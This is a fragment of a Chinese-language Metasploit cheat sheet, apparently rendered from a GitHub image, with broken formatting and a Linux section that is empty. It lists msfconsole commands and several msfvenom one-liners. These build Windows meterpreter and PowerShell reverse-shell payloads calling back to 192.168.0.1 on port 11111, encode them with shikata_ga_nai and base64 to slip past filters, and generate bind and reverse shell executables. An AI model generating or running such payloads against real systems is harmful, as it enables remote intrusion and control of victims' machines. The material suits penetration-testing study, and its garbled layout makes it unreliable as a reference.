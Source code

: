 
### 

```
#show auxiliary 查看所有模块
```






```

##### **Payload**

```


### 

```
`#show payloads 查看所有攻击载荷``Payload是目标被攻击时执行的实际功能代码``生成载荷``#use exploit/multi/script/web_delivery``>set target 2``>msfvenom --list payloads 列出所有payload``>msfvenom --list encoders 列出所有编码器`
```






```

###### **Windows**

```


### 

```
`#msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f exe -o /root/1.exe``#msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o 1.exe``#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f psh-reflection >xxx.ps1``#msfvenom -a x64 --platform windows -p windows/powershell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1``>msfvenom -p windows/shell_hidden_bind_tcp LHOST=192.168.0.1 LPORT=11111  -f exe> /root/1.exe  生成NC正向连接``>msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f exe> 1.exe 生成NC反向连接`
```

###   



```

```
**Linux**  

```

```


### 
